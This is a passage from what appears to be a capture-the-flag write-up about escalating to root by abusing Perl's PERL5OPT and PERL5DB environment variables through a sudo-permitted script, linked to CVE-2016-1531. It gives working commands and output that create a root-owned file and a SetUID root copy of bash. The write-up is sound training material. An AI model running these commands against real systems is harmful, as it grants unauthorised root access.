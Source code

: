 ### Method \#1 via Perl Debug

#### Background

There’s a flag in Perl, `-d` , that sets the debugger:

> -d\[:debugger\] run program under debugger

In this script, I can’t set flags in the command line, but I can set the `PERL5OPT` environment variable, which will also set options. So if I set `PERL5OPT=-d`, then the debugger will be invoked.

There’s another variable, `PERL5DB` that sets a BEGIN block for the code to run when the debugger starts.

There is a somewhat famous example of a bug in the Exim mail server from 2016 where it allowed the user to set environment variables in this way, [CVE-2016-1531](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1531):

> Exim before 4.86.2, when installed setuid root, allows local users to gain privileges via the perl\_startup argument.

[POCs](https://www.exploit-db.com/exploits/39702) for this vulnerability show these variables used in exploitation:

![image-20240125153156507](https://0xdf.gitlab.io/img/image-20240125153156507.png)

#### Exploit

To run this, I’ll just set these environment variables to touch a file:

```
jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("touch /0xdf")' /opt/monitor.sh
No DB::DB routine defined at /usr/bin/xml_pp line 9.
No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
END failed--call queue aborted.

```

The `0xdf` file now exists owned by root in the system root:

```
jack@clicker:~$ ls -l /0xdf
-rw-r--r-- 1 root root 0 Jan 25 20:32 /0xdf

```

To get a shell, I’ll create a copy of `bash` and make it SetUID and SetGID:

```
jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 6777 /tmp/0xdf")' /opt/monitor.sh
No DB::DB routine defined at /usr/bin/xml_pp line 9.
No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
END failed--call queue aborted.

```

The file now exists, is owned by root, and is SetUID and SetGID:
